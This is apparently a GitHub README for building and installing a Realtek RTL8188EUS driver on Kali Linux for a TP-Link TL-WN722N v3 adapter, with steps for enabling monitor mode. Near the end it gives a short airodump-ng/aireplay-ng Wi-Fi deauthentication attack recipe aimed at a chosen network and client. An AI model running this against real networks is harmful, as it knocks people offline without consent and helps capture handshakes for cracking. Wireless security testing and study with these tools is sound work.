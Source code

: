 # tp-link-v3-TL-WN722N
realtek-rtl8188eus-dkms packaging for Kali Linux

## copy  and past the below commands

sudo  apt update

sudo apt dist-upgrade

reboot

sudo apt install linux-headers-$(uname -r) 

sudo apt install bc

sudo rmmod r8188eu.ko

sudo git clone https://github.com/keralahacker/tp-link-v3-usb

cd tp-link-v3-usb

sudo unzip tp-link-v3-usb-HWV.zip

cd realtek-rtl8188eus-keralahacker

sudo -i

echo "blacklist r8188eu.ko" > "/etc/modprobe.d/realtek.conf"

exit

sudo make

sudo make install

sudo modprobe 8188eu


----------------------------------------------------------------------------------
#### if you face any issues ===> 
https://github.com/keralahacker/tp-link-v3-usb/issues/new 
#### submit with screenshot
----------------------------------------------------------------------------------

## To enable Monitor mode

ifconfig wlan0 down

airmon-ng check kill

iwconfig wlan0 mode monitor

ifconfig wlan0 up

iwconfig                                     \\check mode: monitor



### Deauthentication Attack[for educational purpose only]



airodump-ng wlan0

airodump-ng --bssid <id> --channel <ch> --write test wlan0

aireplay-ng --deauth [any no.] -a <bssid> -c <station id> wlan0


## Important note: 

If after restarting your kali machine doesn't recognise your device..
As lot of people are facing the same problem ..
I have a solution for you..
Whenever you restart your kali OS
Insert the adapter and run the command


sudo rmmod r8188eu.ko

Sudo modprobe 8188eu

Disconnect the device and connect again..
